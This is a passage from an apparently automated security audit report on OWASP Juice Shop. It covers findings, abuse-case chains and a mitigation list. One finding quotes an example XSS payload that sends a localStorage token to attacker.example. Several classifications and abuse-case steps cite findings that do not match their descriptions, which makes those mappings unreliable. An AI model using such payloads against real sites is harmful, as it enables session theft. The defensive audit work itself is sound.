**Evidence:** ✓ verified — Line 18-20 in `routes/updateProductReviews.ts` passes `req.body.id` directly to a MongoDB update with `{ multi: true }`, enabling mass-update NoSQL injection.

```typescript
// `routes/updateProductReviews.ts:18`
    const user = security.authenticatedUsers.from(req) // vuln-code-snippet vuln-line forgedReviewChallenge
    db.reviewsCollection.update( // vuln-code-snippet neutral-line forgedReviewChallenge
      { _id: `req.body.id` }, // vuln-code-snippet vuln-line noSqlReviewsChallenge forgedReviewChallenge
      `{ $set: { message: req.body.message } }`,
      { multi: true } // vuln-code-snippet vuln-line noSqlReviewsChallenge
```

**Fix:** Add explicit server-side authorisation checks on every protected route → ❷ [M-032](#m-032) — Add review ownership check and disable multi-document update in product review handler

**Classification:** Broken Access Control · [CWE-285](https://cwe.mitre.org/data/definitions/285.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-010"></a><a id="f-010"></a>
#### F-010 · Cross-Site Scripting

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) — Angular SPA Frontend  ·  **Location:** `frontend/src/app/about/about.component.ts`:119

**Issue:** `about.component.ts:119` wraps each feedback `comment` field from the backend in `this.sanitizer.bypassSecurityTrustHtml(feedbacks[i].comment)`. A malicious user who submits feedback containing `<script>fetch('https://attacker.example/steal?t='+localStorage.getItem('token'))</script>` will have that payload rendered as raw HTML for every visitor to the About page. The same pattern is present in `administration.component.ts:78` for the admin panel's feedback view. Any visitor to the About page executes arbitrary JavaScript injected by any user who previously submitted a malicious feedback comment.

**Root cause:** Attacker-controlled content is rendered in the victim's browser without sanitisation; combined with session tokens held in JavaScript-readable storage, any payload yields immediate account takeover.

**Evidence:** ✓ verified — Line 119 in `about.component.ts` calls `bypassSecurityTrustHtml()` on raw server-returned feedback text with no prior sanitization step.

```typescript
// `frontend/src/app/about/about.component.ts:119`
            feedbacks[i].comment
          }</p><div class="feedback-stars">(\${this.stars[feedbacks[i].rating]})</div></figcaption>`
          feedbacks[i].comment = this.sanitizer.bypassSecurityTrustHtml(
            feedbacks[i].comment
          )
```

**Fix:** Output-encode untrusted strings at every sink and remove all `bypassSecurityTrustHtml` calls → ❷ [M-014](#m-014) — Sanitize feedback comments server-side and remove bypassSecurityTrustHtml in About and Administration components

**Classification:** Cross-Site Scripting (XSS) · [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [OWASP A03:2021](https://owasp.org/Top10/A03_2021/)

<a id="t-011"></a><a id="f-011"></a>
#### F-011 · Cross-Site Scripting

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) — Angular SPA Frontend  ·  **Location:** `frontend/src/app/app.component.ts`:1

**Issue:** No `Content-Security-Policy` header is configured in the Angular SPA's served assets or server configuration (confirmed: grep for CSP in `frontend/src/` returned zero hits). With `unsafe-inline` implicitly allowed and no `script-src` allowlist, any successful XSS injection executes without browser-level containment. This is a direct amplifier for `angular-spa-003` (DOM XSS on search query) and `angular-spa-004` (stored XSS in feedback comments) — without CSP, the browser cannot prevent injected scripts from exfiltrating tokens, making API calls, or loading remote payloads. Any XSS payload in the application executes without restriction; exfiltration of localStorage tokens and CSRF-style API calls are trivially achievable.

**Root cause:** Attacker-controlled content is rendered in the victim's browser without sanitisation; combined with session tokens held in JavaScript-readable storage, any payload yields immediate account takeover.

**Evidence:** ◌ ambiguous — No `Content-Security-Policy` meta tag or header configuration found anywhere under `frontend/src/` — all Angular template injection sinks operate without browser CSP enforcement.

```typescript
// `frontend/src/app/app.component.ts:1`
/*
 * Copyright (c) 2014-2026 Bjoern Kimminich & the OWASP Juice Shop contributors.
 * SPDX-License-Identifier: MIT
```

**Fix:** Output-encode untrusted strings at every sink and remove all `bypassSecurityTrustHtml` calls → ❷ [M-015](#m-015) — Implement Content-Security-Policy header with strict script-src allowlist

**Classification:** Cross-Site Scripting (XSS) · [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [OWASP A03:2021](https://owasp.org/Top10/A03_2021/)

<a id="t-012"></a><a id="f-012"></a>
#### F-012 · Cross-Site Scripting

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) — Angular SPA Frontend  ·  **Location:** `frontend/src/app/data-export/data-export.component.ts`:71

**Issue:** `data-export.component.ts:71`: `window.open('', '_blank', 'width=500')?.document.write(this.userData)` opens a new browser window and writes `userData` — the raw server response from `/api/DataExport` — directly into that window's document via `document.write`. If the backend returns any HTML content containing attacker-controlled fields (name, address, review text, etc.), those fields are rendered as HTML in the new window context. Since the new window shares the same origin, any scripts executed in it have full access to `localStorage` and can invoke the parent window's APIs. Stored content containing HTML/script in user account fields (username, review text) executes in the browser when the user exports their data.

**Root cause:** Attacker-controlled content is rendered in the victim's browser without sanitisation; combined with session tokens held in JavaScript-readable storage, any payload yields immediate account takeover.

**Evidence:** ✓ verified — `document.write(this.userData)` at line 71 passes the raw API response body into an unescaped DOM sink in a same-origin window.

```typescript
// `frontend/src/app/data-export/data-export.component.ts:71`
        this.confirmation = data.confirmation
        this.userData = data.userData
        window.open('', '_blank', 'width=500')?.document.write(this.userData)
        this.lastSuccessfulTry = new `Date()`
        localStorage.setItem('lstdtxprt', JSON.stringify(this.lastSuccessfulTry))
```

**Fix:** Output-encode untrusted strings at every sink and remove all `bypassSecurityTrustHtml` calls → ❷ [M-016](#m-016) — Replace document.write with a safe content rendering method for data export output

**Classification:** Cross-Site Scripting (XSS) · [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [OWASP A03:2021](https://owasp.org/Top10/A03_2021/)

<a id="t-013"></a><a id="f-013"></a>
#### F-013 · Cross-Site Scripting

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) — Angular SPA Frontend  ·  **Location:** `frontend/src/app/search-result/search-result.component.ts`:170

**Issue:** `search-result.component.ts:170`: `this.searchValue = this.sanitizer.bypassSecurityTrustHtml(queryParam)` where `queryParam = this.route.snapshot.queryParams.q`. Any user navigating to `/#/search?q=` causes the Angular template to render `searchValue` as trusted HTML. The `bypassSecurityTrustHtml()` call explicitly disables Angular's built-in XSS sanitization. An attacker can craft a URL that, when clicked by any authenticated user, executes arbitrary JavaScript in their browser session and exfiltrates the JWT token stored in `localStorage`.

**Root cause:** Attacker-controlled content is rendered in the victim's browser without sanitisation; combined with session tokens held in JavaScript-readable storage, any payload yields immediate account takeover.

**Evidence:** ✓ verified — Line 170 passes the URL query parameter `q` directly into `bypassSecurityTrustHtml()`, confirmed by the `// vuln-code-snippet vuln-line localXssChallenge` annotation in the source.

```typescript
// `frontend/src/app/search-result/search-result.component.ts:170`
      }) // vuln-code-snippet hide-end
      this.dataSource.filter = `queryParam.toLowerCase()`
      this.searchValue = this.sanitizer.bypassSecurityTrustHtml(queryParam) // vuln-code-snippet vuln-line localXssChallenge xssBonusChallenge
      this.gridDataSource.subscribe((result: any) => {
        if (result.length === 0) {
```

**Fix:** Output-encode untrusted strings at every sink and remove all `bypassSecurityTrustHtml` calls → ❷ [M-017](#m-017) — Remove bypassSecurityTrustHtml on search query parameter and use Angular interpolation

**Classification:** Cross-Site Scripting (XSS) · [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [OWASP A03:2021](https://owasp.org/Top10/A03_2021/)

### 🟡 Medium (6)

<a id="t-032"></a><a id="f-032"></a>
#### F-032 · Insufficient Logging

**Severity:** 🟡 Medium  ·  **Component:** [C-04](#c-04) — File Upload Service  ·  **Location:** `routes/fileUpload.ts`:27

**Issue:** The file upload handlers in `routes/fileUpload.ts` — `handleZipFileUpload`, `handleXmlUpload`, `handleYamlUpload` — write no log entries on upload events. Combined with the absent authentication guard, every upload to `POST /file-upload` is anonymous and unattributable. Inability to detect, attribute, or investigate malicious uploads after the fact, violating SOC2 CC7.2 audit requirements.

**Evidence:** ✓ verified — None of the four upload handler files call `logger.info()` or equivalent on successful upload events; `routes/profileImageUrlUpload.ts:37` logs the error message but not the URL that triggered it.

**Fix:** ❸ [M-035](#m-035) — Add structured audit log entries for all upload events including actor, filename, and result

**Classification:** OAuth / OIDC Misconfiguration · [CWE-778](https://cwe.mitre.org/data/definitions/778.html) · [OWASP A07:2021](https://owasp.org/Top10/A07_2021/)

<a id="t-034"></a><a id="f-034"></a>
#### F-034 · Improper Privilege Management

**Severity:** 🟡 Medium  ·  **Component:** [C-01](#c-01) — Express Backend API  ·  **Location:** `Dockerfile`:5

**Issue:** Docker build invokes npm install --unsafe-perm (Dockerfile:5), allowing postinstall scripts to run with elevated privileges during CI. A malicious transitive dependency could execute arbitrary code with elevated access during the build pipeline.

**Root cause:** Authorisation checks are absent or bypassable, allowing horizontal and vertical privilege jumps from a self-registered or low-rights account. Includes mass-assignment of privileged attributes.

**Evidence:** ✓ verified

**Fix:** ❸ [M-003](#m-003) — Remove `--unsafe-perm` from `npm install`

**Classification:** Error Information Disclosure · [CWE-269](https://cwe.mitre.org/data/definitions/269.html) · [OWASP A05:2021](https://owasp.org/Top10/A05_2021/)

<a id="t-031"></a><a id="f-031"></a>
#### F-031 · Insufficient Logging

**Severity:** 🟡 Medium  ·  **Component:** [C-05](#c-05) — B2B Order API  ·  **Location:** `routes/b2bOrder.ts`:16

**Issue:** `routes/b2bOrder.ts` processes `POST /b2b/v2/orders` requests — including the code evaluation path at line 23 — without recording any audit event. The response returns `{ cid, orderNo, paymentDue }` (line 24), but neither the `cid` value, the authenticated user identity, the contents of `orderLinesData`, nor the evaluation outcome are written to any log sink or database. Post-incident forensic investigation cannot determine which account submitted the malicious payload, when, or what the payload contained, enabling an attacker to deny involvement.

**Evidence:** ✓ verified — `b2bOrder.ts` has no call to any logger, audit-collection function, or database insert — the only observable output is the JSON HTTP response returned to the caller.

**Fix:** ❸ [M-034](#m-034) — Emit a structured audit log entry on every B2B order submission in routes/b2bOrder.ts

**Classification:** Supply-Chain Integrity · [CWE-778](https://cwe.mitre.org/data/definitions/778.html) · [OWASP A06:2021](https://owasp.org/Top10/A06_2021/)

<a id="t-035"></a><a id="f-035"></a>
#### F-035 · SQL Injection

**Severity:** 🟡 Medium  ·  **Component:** [C-01](#c-01) — Express Backend API  ·  **Location:** `routes/search.ts`:47

**Issue:** `routes/search.ts:47` executes `models.sequelize.query('SELECT sql FROM sqlite_master')` unconditionally within the product search handler whenever `dbSchemaChallenge` is unsolved. The results (DDL for every table) are compared against the attacker's response payload to detect if the challenge was solved, but the comparison runs against whatever the attacker injects. Attacker learns the exact column names, types, and indexes of all tables (Users, Products, Baskets, etc.), reducing the effort to craft targeted injection payloads.

**Root cause:** User input flows into a server-side interpreter (SQL, NoSQL, XML, YAML, LDAP, OS shell) without parameterisation or schema validation.

**Evidence:** ✓ verified — `routes/search.ts:47` issues a bare `SELECT sql FROM sqlite_master` query on every search request, exposing internal schema DDL as a side-channel for injection.

**Fix:** Switch all SQL execution to parameterised queries or ORM-bound parameters → ❸ [M-037](#m-037) — Remove sqlite_master challenge-detection query from the production search path

**Classification:** Injection · [CWE-89](https://cwe.mitre.org/data/definitions/89.html) · [OWASP A03:2021](https://owasp.org/Top10/A03_2021/)

<a id="t-033"></a><a id="f-033"></a>
#### F-033 · Cross-Site Scripting

**Severity:** 🟡 Medium  ·  **Component:** [C-02](#c-02) — Angular SPA Frontend  ·  **Location:** `frontend/src/app/last-login-ip/last-login-ip.component.ts`:39

**Issue:** `last-login-ip.component.ts:39` reads the JWT from `localStorage`, decodes it via `jwtDecode`, extracts `payload.data.lastLoginIp`, and passes it to `this.sanitizer.bypassSecurityTrustHtml(`<small>${`payload.data.lastLoginIp`}</small>`)`. If a backend stores a crafted value for `lastLoginIp` containing HTML/script (e.g. via spoofed IP header in a prior login request), that content is rendered as raw HTML on the Last Login IP page. An attacker who can influence the `lastLoginIp` JWT claim (via spoofed headers on their own login) can store a persistent XSS payload that fires for the victim when they view the Last Login IP page.

**Root cause:** Attacker-controlled content is rendered in the victim's browser without sanitisation; combined with session tokens held in JavaScript-readable storage, any payload yields immediate account takeover.

**Evidence:** ✓ verified — Line 39 of `last-login-ip.component.ts` interpolates `payload.data.lastLoginIp` from a decoded JWT directly into `bypassSecurityTrustHtml()` inside an HTML template string.

**Fix:** Output-encode untrusted strings at every sink and remove all `bypassSecurityTrustHtml` calls → ❸ [M-036](#m-036) — Remove bypassSecurityTrustHtml from lastLoginIp display and use plain text binding

**Classification:** Cross-Site Scripting (XSS) · [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [OWASP A03:2021](https://owasp.org/Top10/A03_2021/)

<a id="t-036"></a><a id="f-036"></a>
#### F-036 · Open Redirect

**Severity:** 🟡 Medium  ·  **Component:** [C-01](#c-01) — Express Backend API  ·  **Location:** `lib/insecurity.ts`:138

**Issue:** The redirect allowlist check uses `url.includes(allowedUrl)` to validate the destination: `allowed = allowed || url.includes(allowedUrl)`. Because this is a substring match rather than an exact prefix match, an attacker can craft a URL like `https://attacker.com/?r=https://github.com/juice-shop/juice-shop` or a path-traversal variant such that the allowed URL string appears somewhere inside the malicious destination. An attacker sends phishing links using the trusted juice-shop domain that silently redirect victims to credential-harvesting pages on attacker-controlled domains.

**Root cause:** Confidential files, credentials, and management-plane endpoints are reachable on unauthenticated routes; SSRF lets the server fetch internal resources on the attacker's behalf; unsafe path-handling primitives leak server content.

**Evidence:** ✓ verified — Line 138 in `lib/insecurity.ts` validates redirect targets with `url.includes(allowedUrl)` instead of `url.startsWith(allowedUrl)`, allowing the allowlisted string to appear anywhere in the attacker-controlled URL.

**Fix:** ❸ [M-038](#m-038) — Replace URL.includes() allowlist check with strict URL.startsWith() for redirect validation

**Classification:** Broken Access Control · [CWE-601](https://cwe.mitre.org/data/definitions/601.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

### 🟢 Low (2)

<a id="t-037"></a><a id="f-037"></a>
#### F-037 · GitHub Actions workflow grants pull

**Severity:** 🟢 Low  ·  **Component:** [C-01](#c-01) — Express Backend API  ·  **Location:** `.github/workflows/lock.yml`:9

**Issue:** `lock.yml` workflow (.github/workflows/lock.yml:9) requests pull-requests:write for the GITHUB_TOKEN. If triggered by a fork PR, a supply-chain attacker can abuse the write token to tamper with PR state or inject malicious review comments.

**Evidence:** ✓ verified

**Fix:** ❹ [M-004](#m-004) — Add a top-level GITHUB_TOKEN permissions block

**Classification:** Error Information Disclosure · [CWE-266](https://cwe.mitre.org/data/definitions/266.html) · [OWASP A05:2021](https://owasp.org/Top10/A05_2021/)

<a id="t-038"></a><a id="f-038"></a>
#### F-038 · Insecure Direct Object Reference (IDOR)

**Severity:** 🟢 Low  ·  **Component:** [C-04](#c-04) — File Upload Service  ·  **Location:** `routes/memory.ts`:15

**Issue:** `addMemory` at `routes/memory.ts:15` constructs the database record as `{ caption: req.body.caption, imagePath: ..., UserId: req.body.UserId }`. An attacker may associate uploaded images with another user's account, enabling social-engineering attacks or falsely attributing content.

**Root cause:** Authorisation checks are absent or bypassable, allowing horizontal and vertical privilege jumps from a self-registered or low-rights account. Includes mass-assignment of privileged attributes.

**Evidence:** ✓ verified — `routes/memory.ts:15` uses `req.body.UserId` directly in `MemoryModel.create()` without a separate server-side assertion that the value matches the authenticated user; correctness depends entirely on `security.appendUserId()` succeeding and overwriting the field.

**Fix:** Tie every object lookup to the requesting user's identity and reject cross-tenant references → ❹ [M-039](#m-039) — Assert server-derived UserId in addMemory rather than trusting req.body

**Classification:** Broken Access Control · [CWE-639](https://cwe.mitre.org/data/definitions/639.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

---

_**Evidence verification:** rows tagged `⚠ (evidence refuted)` were re-checked by the Phase 10a evidence-verifier (see `.evidence-verification.json`) and the cited `file:line` did **not** show the claimed weakness. Their raw severity is preserved, but chain-elevation has been suppressed by the triage stage. Rows tagged `◌ (evidence ambiguous)` could not be confirmed or refuted from the cited snippet alone — a human reviewer should decide whether to keep, downgrade, or remove these findings._

---

## 9. Abuse Cases

_Abuse cases describe end-to-end attack scenarios that chain individual findings into an exploitation path. Each case is **mandatory** — defined in the org profile / plugin library and evaluated against every repository. Every chain step references a finding from [§8 Findings Register](#8-findings-register); each step is code-confirmed against the repository and the chain verdict is folded deterministically from the per-step results, never rated by hand._

| # | Scenario | Actor | Combined Risk | Verdict |
|---|----------|-------|---------------|---------|
| [AC-T-001](#ac-t-001) | Account Takeover via Stored XSS + Token Hijacking | external-attacker | 🟠 High | ? Inconclusive |
| [AC-T-002](#ac-t-002) | Bulk Data Exfiltration via Broken Object Authorization | authenticated-user | 🟠 High | ? Inconclusive |
| [AC-T-003](#ac-t-003) | Privilege Escalation to Admin via JWT Algorithm Confusion | external-attacker | 🔴 Critical | ? Inconclusive |
| [AC-T-004](#ac-t-004) | Privilege Escalation via Mass-Assignment on Registration | external-attacker | 🔴 Critical | ⚠ Fully viable |
| [AC-T-005](#ac-t-005) | Authentication Bypass via Exposed Secret Material | external-attacker | 🔴 Critical | ⚠ Fully viable |
| [AC-T-006](#ac-t-006) | Remote Code Execution via Server-Side Injection | external-attacker | 🔴 Critical | ◐ Partially blocked |

_Verdict: ⚠ Fully viable — no effective control blocks this chain · ◐ Partially blocked — at least one step has a compensating control but the chain is not fully closed · ✓ Mitigated — chain is broken at a verified step · ? Inconclusive — could not be verified end-to-end._

---

### <a id="ac-t-001"></a>AC-T-001 — Account Takeover via Stored XSS + Token Hijacking

> **Source:** mandatory · **Actor:** external-attacker — unauthenticated external attacker · **Combined Risk:** 🟠 High · **Verdict:** ? Inconclusive

**Goal:** Obtain persistent authenticated access as an arbitrary user without valid credentials.

**Prerequisite:** Attacker can submit content that is later rendered to other users (e.g. feedback, comments, profile fields).

**Attack chain**

| Step | Finding | Outcome |
|------|---------|---------|
| 1 | 🟠 [F-010](#f-010) — Stored XSS via Feedback Comment… (frontend/src/app/about/about.component.ts:119) | Attacker JavaScript executes in the victim's browser session. |
| 2 | 🟠 [F-010](#f-010) — Stored XSS via Feedback Comment… (frontend/src/app/about/about.component.ts:119) | Token exfiltrated from local/session storage via the Step 1 payload. |
| 3 | 🟠 [F-008](#f-008) — OAuth Implicit Flow Without PKC… (frontend/src/app/login/login.component.ts:134) | Exfiltrated token accepted for a new session; absence of token binding / PKCE removes the last server-side revocation opportunity. |

**Why combined risk exceeds individual ratings**

Individually the XSS sink and the web-readable token storage rate below Critical, but chained they form a repeatable credential-theft path: a single stored payload causes indefinite session compromise for every user who views the affected page.

**Blocking mitigations**

Implementing any single mitigation below severs the chain at the named step, so the end-to-end abuse can no longer complete:

- [M-014](#m-014) — Sanitize feedback comments server-side and remove bypassSecurityTrustHtml in About and Administration components (**P2**): remediating 🟠 [F-010](#f-010) — Stored XSS via Feedback Comment… (frontend/src/app/about/about.component.ts:119) breaks the chain at **Step 1**, removing the link the rest of the chain depends on.
- [M-012](#m-012) — Migrate Google OAuth flow to Authorization Code with PKCE and add state validation (**P3**): remediating 🟠 [F-008](#f-008) — OAuth Implicit Flow Without PKC… (frontend/src/app/login/login.component.ts:134) breaks the chain at **Step 3**, removing the link the rest of the chain depends on.

---

### <a id="ac-t-002"></a>AC-T-002 — Bulk Data Exfiltration via Broken Object Authorization

> **Source:** mandatory · **Actor:** authenticated-user — authenticated low-privilege user · **Combined Risk:** 🟠 High · **Verdict:** ? Inconclusive

**Goal:** Enumerate and exfiltrate other users' records, then escalate own permissions via unguarded mass assignment.

**Prerequisite:** Attacker holds a valid, non-privileged user account.

**Attack chain**

| Step | Finding | Outcome |
|------|---------|---------|
| 1 | 🟠 [F-014](#f-014) — NoSQL Injection via $where Clause (routes/showProductReviews.ts:36) | Attacker enumerates and retrieves records for arbitrary object IDs; no ownership comparison is performed. |
| 2 | 🟡 [F-034](#f-034) — Docker build uses unsafe perm flag<br/>`Dockerfile:5` | Update endpoint persists an unfiltered `role` (or equivalent) field supplied in the request body. |

**Why combined risk exceeds individual ratings**

The ownership gap exposes every record, and the mass-assignment gap lets the same low-privilege actor self-elevate — together they turn a single compromised account into full tenant data access and role escalation.

**Blocking mitigations**

Implementing any single mitigation below severs the chain at the named step, so the end-to-end abuse can no longer complete:

- [M-001](#m-001) — Establish centralized parameterized query layer to eliminate all injection paths (**P1**): remediating 🟠 [F-014](#f-014) — NoSQL Injection via $where Clause (routes/showProductReviews.ts:36) breaks the chain at **Step 1**, removing the link the rest of the chain depends on.
- [M-018](#m-018) — Replace MarsDB $where JavaScript evaluation with a direct field equality query (**P2**): remediating 🟠 [F-014](#f-014) — NoSQL Injection via $where Clause (routes/showProductReviews.ts:36) breaks the chain at **Step 1**, removing the link the rest of the chain depends on.
- [M-003](#m-003) — Remove `--unsafe-perm` from `npm install` (**P3**): remediating 🟡 [F-034](#f-034) — Docker build uses unsafe perm flag breaks the chain at **Step 2**, removing the link the rest of the chain depends on.

---

### <a id="ac-t-003"></a>AC-T-003 — Privilege Escalation to Admin via JWT Algorithm Confusion

> **Source:** mandatory · **Actor:** external-attacker — unauthenticated external attacker · **Combined Risk:** 🔴 Critical · **Verdict:** ? Inconclusive

**Goal:** Forge an admin-role JWT without knowledge of the signing secret.

**Prerequisite:** Attacker can obtain any valid JWT issued by the system (e.g. by registering a free account).

**Attack chain**

| Step | Finding | Outcome |
|------|---------|---------|
| 1 | 🔴 [F-002](#f-002) — JWT Algorithm Confusion Missing algorithms Allowlist (lib/insecurity.ts:54) | Verifier accepts attacker-chosen `alg` (e.g. `none` or HMAC-with-public-key), allowing token re-signing without the secret. |
| 2 | 🔴 [F-006](#f-006) — Hardcoded RSA Private Key in Source Code lib/insecurity.ts:23 | Forged `role: admin` claim is accepted as authoritative because the role is not re-fetched from the database per request. |

**Why combined risk exceeds individual ratings**

Algorithm confusion alone yields a forgeable token; trusting the in-token role claim turns that forgery into instant admin access — neither gap is Critical in isolation, but the chain is a full authentication bypass.

**Blocking mitigations**

Implementing any single mitigation below severs the chain at the named step, so the end-to-end abuse can no longer complete:

- [M-006](#m-006) — Pin expressJwt to algorithms: ['RS256'] in lib/insecurity.ts (**P1**): remediating 🔴 [F-002](#f-002) — JWT Algorithm Confusion Missing algorithms Allowlist (lib/insecurity.ts:54) breaks the chain at **Step 1**, removing the link the rest of the chain depends on.
- [M-002](#m-002) — Rotate committed secrets and adopt runtime secret management (**P1**): remediating 🔴 [F-006](#f-006) — Hardcoded RSA Private Key in Source Code lib/insecurity.ts:23 breaks the chain at **Step 2**, removing the link the rest of the chain depends on.
- [M-010](#m-010) — Remove hardcoded private key and load it from environment or secrets manager at runtime (**P1**): remediating 🔴 [F-006](#f-006) — Hardcoded RSA Private Key in Source Code lib/insecurity.ts:23 breaks the chain at **Step 2**, removing the link the rest of the chain depends on.

---

### <a id="ac-t-004"></a>AC-T-004 — Privilege Escalation via Mass-Assignment on Registration

> **Source:** mandatory · **Actor:** external-attacker — unauthenticated external attacker · **Combined Risk:** 🔴 Critical · **Verdict:** ⚠ Fully viable

**Goal:** Obtain an administrator account without any existing privilege.

**Prerequisite:** Self-registration is open (one unauthenticated POST).

**Attack chain**

| Step | Finding | Outcome |
|------|---------|---------|
| 1 | 🟠 [F-028](#f-028) — Missing Ownership Check on Review Update (routes/updateProductReviews.ts:18)<br/>`server.ts:500` | The account-creation handler persists the request body wholesale, so a client-supplied `role` (or `isAdmin`) field is written verbatim. |

**Why combined risk exceeds individual ratings**

A single unauthenticated request mints an admin account when the registration handler trusts a client-supplied role field — the most direct full-compromise path in role-based apps with open sign-up.

**Blocking mitigations**

Implementing any single mitigation below severs the chain at the named step, so the end-to-end abuse can no longer complete:

- [M-031](#m-031) — Add author ownership check to review update query (**P2**): remediating 🟠 [F-028](#f-028) — Missing Ownership Check on Review Update (routes/updateProductReviews.ts:18) breaks the chain at **Step 1**, removing the link the rest of the chain depends on.

---

### <a id="ac-t-005"></a>AC-T-005 — Authentication Bypass via Exposed Secret Material

> **Source:** mandatory · **Actor:** external-attacker — unauthenticated external attacker · **Combined Risk:** 🔴 Critical · **Verdict:** ⚠ Fully viable

**Goal:** Forge trusted tokens / credentials and impersonate any user.

**Prerequisite:** Signing material or other secrets are reachable (committed to a public repo, served by an unauthenticated route, or in an exposed directory).

**Attack chain**

| Step | Finding | Outcome |
|------|---------|---------|
| 1 | 🔴 [F-002](#f-002) — JWT Algorithm Confusion Missing algorithms Allowlist (lib/insecurity.ts:54) | A private key, signing secret, or credential file is committed to the source repository or served without authentication. |
| 2 | 🔴 [F-002](#f-002) — JWT Algorithm Confusion Missing algorithms Allowlist (lib/insecurity.ts:54) | The exposed key/secret is the same one the server trusts, so a token signed with it (or the leaked credential) is accepted as authentic. |

**Why combined risk exceeds individual ratings**

Exposed signing material collapses the entire authentication boundary: any attacker who reads the key can mint a valid token for any identity or role, with no credential ever required.

**Blocking mitigations**

Implementing any single mitigation below severs the chain at the named step, so the end-to-end abuse can no longer complete:

- [M-006](#m-006) — Pin expressJwt to algorithms: ['RS256'] in lib/insecurity.ts (**P1**): remediating 🔴 [F-002](#f-002) — JWT Algorithm Confusion Missing algorithms Allowlist (lib/insecurity.ts:54) breaks the chain at **Step 1**, removing the link the rest of the chain depends on.

---

### <a id="ac-t-006"></a>AC-T-006 — Remote Code Execution via Server-Side Injection

> **Source:** mandatory · **Actor:** external-attacker — unauthenticated external attacker · **Combined Risk:** 🔴 Critical · **Verdict:** ◐ Partially blocked

**Goal:** Execute arbitrary code in the application process.

**Prerequisite:** An input reaches a server-side interpreter / template / eval.

**Attack chain**

| Step | Finding | Outcome |
|------|---------|---------|
| 1 | 🔴 [F-005](#f-005) — Hardcoded RSA Private Key (lib/insecurity.ts:23)<br/>`routes/userProfile.ts:62` | Attacker-controlled input is passed to `eval`, a server-side template engine, an unsafe sandbox, or an unsafe deserializer. |

**Why combined risk exceeds individual ratings**

A single injection into a server-side interpreter yields code execution in the application process — the highest-impact outcome, granting full filesystem and network access from one unauthenticated request.

**Blocking mitigations**

Implementing any single mitigation below severs the chain at the named step, so the end-to-end abuse can no longer complete:

- [M-002](#m-002) — Rotate committed secrets and adopt runtime secret management (**P1**): remediating 🔴 [F-005](#f-005) — Hardcoded RSA Private Key (lib/insecurity.ts:23) breaks the chain at **Step 1**, removing the link the rest of the chain depends on.
- [M-009](#m-009) — Load RSA private key from an environment variable or secret manager in lib/insecurity.ts (**P1**): remediating 🔴 [F-005](#f-005) — Hardcoded RSA Private Key (lib/insecurity.ts:23) breaks the chain at **Step 1**, removing the link the rest of the chain depends on.

---

## 10. Mitigation Register

Each mitigation block lists the findings it **Addresses**, the CWEs it **Prevents**, and the **Priority** (P1 = before deployment, P2 = current sprint, P3 = next quarter, P4 = backlog). The **Why** / **How** / **Verification** fields are populated only when authored; if a field is omitted, refer to the linked finding's *Evidence* line for file:line context and to the threat-category description in [§8 Findings Register](#8-findings-register) for the underlying weakness.

**Mitigations index:**<br/>❶ [M-001](#m-001) — Establish centralized parameterized query layer to eliminate all inject…<br/>❶ [M-002](#m-002) — Rotate committed secrets and adopt runtime secret management<br/>❶ [M-006](#m-006) — Pin expressJwt to algorithms: ['RS256'] in lib/insecurity.ts<br/>❶ [M-007](#m-007) — Replace raw SQL login query with parameterized Sequelize query<br/>❶ [M-008](#m-008) — Replace raw search query with parameterized Sequelize LIKE query<br/>❶ [M-009](#m-009) — Load RSA private key from an environment variable or secret manager in…<br/>❶ [M-010](#m-010) — Remove hardcoded private key and load it from environment or secrets ma…<br/>❶ [M-011](#m-011) — Replace safeEval with a strict JSON schema parser for orderLinesData in…<br/>❷ [M-005](#m-005) — Replace deterministic email-derived password with server-side OAuth-acc…<br/>❷ [M-013](#m-013) — Add security.isAuthorized() middleware to the POST /file-upload route<br/>❷ [M-014](#m-014) — Sanitize feedback comments server-side and remove bypassSecurityTrustHt…<br/>❷ [M-015](#m-015) — Implement Content-Security-Policy header with strict script-src allowli…<br/>❷ [M-016](#m-016) — Replace document.write with a safe content rendering method for data ex…<br/>❷ [M-017](#m-017) — Remove bypassSecurityTrustHtml on search query parameter and use Angula…<br/>❷ [M-018](#m-018) — Replace MarsDB $where JavaScript evaluation with a direct field equalit…<br/>❷ [M-019](#m-019) — Replace $where order query with direct field equality and strict ID for…<br/>❷ [M-020](#m-020) — Disable external entity processing in libxmljs2 XML parse options<br/>❷ [M-021](#m-021) — Enable structured query logging and add Sequelize model audit hooks<br/>❷ [M-022](#m-022) — Emit structured security audit log entries for authentication and admin…<br/>❷ [M-024](#m-024) — Replace MD5 password hashing with bcrypt or Argon2<br/>❷ [M-025](#m-025) — Enforce URL scheme and host allowlist before fetching profile image URLs<br/>❷ [M-026](#m-026) — Add express-rate-limit middleware to the /b2b/v2 route group in server.…<br/>❷ [M-027](#m-027) — Remove global.sleep definition and replace $where query with field equa…<br/>❷ [M-028](#m-028) — Fix X-Forwarded-For-based rate limit key and add rate limiting to login…<br/>❷ [M-029](#m-029) — Add rate limiting on the YAML/XML upload endpoint and cap YAML anchor e…<br/>❷ [M-030](#m-030) — Back admin route guard with a server-side authorization check or signat…<br/>❷ [M-031](#m-031) — Add author ownership check to review update query<br/>❷ [M-032](#m-032) — Add review ownership check and disable multi-document update in product…<br/>❷ [M-033](#m-033) — Normalize ZIP entry paths and enforce a strict allowlist prefix before…<br/>❸ [M-003](#m-003) — Remove `--unsafe-perm` from `npm install`<br/>❸ [M-012](#m-012) — Migrate Google OAuth flow to Authorization Code with PKCE and add state…<br/>❸ [M-023](#m-023) — Migrate JWT storage from localStorage to HttpOnly Secure SameSite=Stric…<br/>❸ [M-034](#m-034) — Emit a structured audit log entry on every B2B order submission in rout…<br/>❸ [M-035](#m-035) — Add structured audit log entries for all upload events including actor,…<br/>❸ [M-036](#m-036) — Remove bypassSecurityTrustHtml from lastLoginIp display and use plain t…<br/>❸ [M-037](#m-037) — Remove sqlite_master challenge-detection query from the production sear…<br/>❸ [M-038](#m-038) — Replace URL.includes() allowlist check with strict URL.startsWith() for…<br/>❹ [M-004](#m-004) — 